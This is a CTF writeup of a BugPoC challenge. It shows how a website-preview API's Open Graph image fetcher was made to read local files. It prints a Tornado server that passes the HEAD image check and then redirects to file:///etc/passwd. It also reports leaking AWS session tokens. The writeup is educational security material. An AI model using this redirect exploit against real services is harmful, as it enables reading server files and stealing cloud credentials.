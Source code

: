 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing Twitter I saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image instructed me to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was a server-sided bug, I got energized to solve it. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in StackOverflow answer. Then for url, I used input prompt on while loop. This is what a successful response looks like, and it also returns an image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used the JSON module to parse the data then the content of the image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, I tried different kinds of stuff, ideas such as SSRF but it wasn't working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasn't vulnerable I looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time revealed something that I missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows a web page to become a rich object in the social graph. It had a lot of tags and some tags that were being reflected were `og: description`, `og: type`, `og: image`, and `og.url`. Also, description, type, and url didn't have much effect on the server. However, the parser was again fetching resources from image tag and used urllib3 to fetch. Trying for SSRF again failed me and SSRF wasn't a solution to the challenge so I moved on.

Looking at a different perspective, I found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)$`
* Serving another file with extensions fails a HEAD request, parser checks by mimetype which can be bypassed
* Serving `.jpg` file with jpg or other image magic header, parser base64 encodes image and returns it

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting HTML, PHP, and other code in the jpeg mimetype file but it didn't work. I also tried using Exif tags for code execution which didn't work too. I was quite lost at these moments and those weird hints from BugPoC made me madder.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, let's host the malicious server, and get that file. Also, I rechanged a lot of my exploit.py code and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

# Changing the impact
This is incomplete writeup and maybe changed. So, some after trying some common files i got two tokens `AWS_SESSION_TOKEN` and  `AWS_SECRET_ACCESS_KEY7`. AWS sessoin key was long and covered with lot of slashes. This is the metadata of AWS they talked about. Now currently trying to leak source code

## Takeaway 

* Always try harder, if I left when I failed SSRF, I couldn't have solved the challenge 
* Javascript files are a gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but the last ones were absurd and meaningless. Also, I necessarily didnt have to code server and client. For the server, I could have used BugPoC mock endpoint and for a client, I could have used either burp or browser for testing purposes, the client is best!

